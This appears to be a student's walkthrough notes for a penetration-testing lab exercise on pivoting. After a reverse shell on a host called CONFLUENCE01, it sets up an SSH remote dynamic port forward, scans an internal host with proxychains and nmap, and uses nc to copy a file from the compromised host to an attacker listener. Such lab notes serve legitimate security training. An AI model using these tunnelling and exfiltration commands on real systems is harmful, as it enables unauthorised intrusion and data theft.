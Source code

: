 ## Remote Dynamic

1. Follow the steps in this section to set up a remote dynamic port forward from CONFLUENCE01. Scan ports 9000-9100 on MULTISERVER03 through it. Which port is open? (Note: Make sure to scan MULTISERVER03 on its internal interface at 10.4.X.64).

- Gain remote shell on CONFLUENCE01 via curl & CVE vuln exploit
- Upgrade TTY
- Start a dynamic remote port forward on CONFLUENCE01
```bash
ssh -N -R 9998 kali@192.168.45.196
```

- Edit proxychains config file and use to scan
```bash
# On Kali
sudo vim /etc/proxychains4.conf
	# Last line
	socks5 127.0.0.1 9998

proxychains nmap -vvv -sT -Pn -p 9000-9100 -n 10.4.288.64
	...
	PORT     STATE  SERVICE       REASON
	9062/tcp open   unknown         syn-ack
```


2. **Capstone Exercise**: Download the **ssh_remote_dynamic_client** binary from the CONFLUENCE01 web server at **http://CONFLUENCE01:8090/exercises/ssh_remote_dynamic_client**. Run it against the port you just found on MULTISERVER03 through the remote dynamic port forward.

Note: the source files used to build the **ssh_remote_dynamic_client** binary can be downloaded from **/exercises/client_source.zip**.

- Exit out of current reverse shell on CONFLUENCE01
- Re-setup reverse shell using curl & CVE
- Upgrade TTY
- Kill current SSH tunnel
```bash
# On CONFLUENCE01
ps aux | grep ssh
	root         980  0.0  0.1  12180  6792 ?        Ss   21:54   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
	conflue+    3293  0.0  0.1  12016  6092 pts/0    S+   22:04   0:00 ssh -N -R 9998 kali@192.168.45.196
	conflue+    4188  0.0  0.0   6432   724 ?        S    22:38   0:00 grep ssh

kill -9 3293
```

- Use `nc` to download **ssh_remote_dynamic_client** & test
```bash
# In Kali
nc -nlvp 3333 > ssh_remote_dynamic_client

# In CONFLUENCE01
nc 192.168.45.196 3333 -q 1 < ../confluence/exercises/ssh_remote_dynamic_client

# Once done, in Kali
chmod +x ssh_remote_dynamic_client

./ssh_remote_dynamic_client
	Connecting to 127.0.0.1:4141
	thread 'main' panicked at 'Failed to connect to 127.0.0.1:4141: Connection refused (os error 111)', src/client.rs:79:13
	note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
```
